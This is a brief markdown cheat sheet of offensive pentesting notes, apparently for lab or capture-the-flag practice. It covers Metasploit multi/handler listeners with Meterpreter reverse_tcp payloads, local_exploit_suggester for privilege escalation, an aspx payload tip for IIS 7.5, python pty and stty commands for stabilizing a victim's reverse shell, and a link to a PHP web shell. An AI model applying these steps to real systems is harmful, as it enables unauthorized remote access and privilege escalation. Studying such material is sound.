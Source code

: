 # SHELL, reverse, bind

## msfconsole

- listener

  - `use exploit/multi/handler`
    - `set payload windows/meterpreter/reverse_tcp`
    - `set payload windows/x64/meterpreter/reverse_tcp`
    - the same one used to generate the payload with msfvenom

- privesc
  - Running `sysinfo` in the Meterpreter session reveals that the target is x86 architecture, so it is
    possible to get fairly reliable suggestions with the local_exploit_suggester module. The same can
    not be said for running the module on x64
  - `use post/multi/recon/local_exploit_suggester`
    - find potential vectors for privesc, msf modules

## payloads

- for `Microsoft IIS httpd 7.5` use aspx file

## Linux shell stabilization

- `python2 -c 'import pty;pty.spawn("/bin/bash")'`
- `python3 -c 'import pty;pty.spawn("/bin/sh")'`
- ctrl + z to background
- `stty raw -echo`, to fix tab completition
- `fg`, to bring back the shell
- `stty raw -echo; fg`

- [optional, fix vim]
  - on attacker
    - `echo $TERM`
      > xterm-256color
  - on victim rev shell
    - `export TERM=screen`
    - or `export TERM=xterm-256color` ?

## Web shells

- https://github.com/Arrexel/phpbash
